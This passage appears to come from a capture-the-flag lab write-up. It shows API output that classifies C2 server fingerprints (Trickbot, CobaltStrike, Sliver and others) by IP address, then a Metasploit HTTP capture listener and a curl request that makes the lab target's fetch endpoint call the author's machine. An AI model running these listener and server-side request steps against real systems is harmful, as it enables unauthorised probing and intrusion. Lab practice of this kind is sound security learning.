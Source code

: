 ```
  "endpoint": "94.140.114.239",
  "note": "Trickbot",
  "server": "Cowboy"
}
{
  "id": 174,
  "sig": "29d21b20d29d29d21c41d21b21b41d494e0df9532e75299f15ba73156cee38",
  "ismalicious": true,
  "endpoint": "192.64.119.215",
  "note": null,
  "server": ""
}
{
  "id": 178,
  "sig": "1dd40d40d00040d1dc1dd40d1dd40d3df2d6a0c2caaa0dc59908f0d3602943",
  "ismalicious": true,
  "endpoint": "192.145.239.18",
  "note": "AsyncRAT",
  "server": ""
}
{
  "id": 179,
  "sig": "2ad2ad0002ad2ad00043d2ad2ad43da5207249a18099be84ef3c8811adc883",
  "ismalicious": true,
  "endpoint": "94.140.114.239",
  "note": "Sliver",
  "server": "Apache/2.4.38"
}
{
  "id": 184,
  "sig": "28d28d28d00028d00041d28d28d41dd279b0cf765af27fa62e66d7c8281124",
  "ismalicious": true,
  "endpoint": "51.136.77.112",
  "note": "Gophish",
  "server": "nginx"
}
{
  "id": 197,
  "sig": "07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1",
  "ismalicious": true,
  "endpoint": "104.17.237.190",
  "note": "CobaltStrike",
  "server": ""
}
```
- There are like 10 outputs,  metasploit looks interesting. Let's see what happens if listened from metasploit.
- In metasploit select this module `auxillary/server/capture/http` and then set the port to 443, make SSL to true. Here is the oneliner
```bash
sudo msfconsole -x "use auxiliary/server/capture/http; set srvport 443; set SSL true; run"
```
- Now I curled the fetch endpoint like this and got the note as `Metasploit`. 
```
❯ curl 'http://10.10.11.117/api/v1/fetch?endpoint=http%3A%2F%2F10.10.14.18' | jq . 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   154  100   154    0     0     18      0  0:00:08  0:00:08 --:--:--    32
{
  "sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
  "ismalicious": false,
  "endpoint": "10.10.14.18:443",
  "note": "Metasploit?",
  "server": ""
```